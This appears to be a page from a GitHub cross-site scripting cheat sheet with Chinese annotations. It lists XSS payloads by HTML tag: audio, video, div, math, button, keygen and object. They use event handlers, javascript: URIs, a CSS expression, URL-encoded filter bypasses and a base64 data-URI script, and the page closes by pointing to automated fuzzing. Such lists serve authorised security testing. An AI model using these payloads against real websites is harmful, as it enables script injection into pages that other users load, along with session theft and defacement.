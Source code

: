 



- audio

```
<audio src=x onerror=alert(47)>
<audio src=x onerror=prompt(1);>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
```



- video

```
<video src=x onerror=prompt(1);>
<video src=x onerror=alert(48)>
```



- div

```
<div style="width:expression(alert(/1/))">1</div>     ie浏览器执行
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>   url编码绕过
```



- math

```
<math><a/xlink:href=javascript:prompt(1)>Xss

<math href="javascript:javascript:alert(1)">Xss</math>
```



- button

```
<button onfocus=alert(1) autofocus>
<button/onclick=alert(1) >xss</button>
```



- keygen

```
<keygen/onfocus=prompt(1);>
<keygen onfocus=javascript:alert(1) autofocus>
```



- object

```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg    
      解码：<script>alert(1)</script>
```





自动化工具fuzz



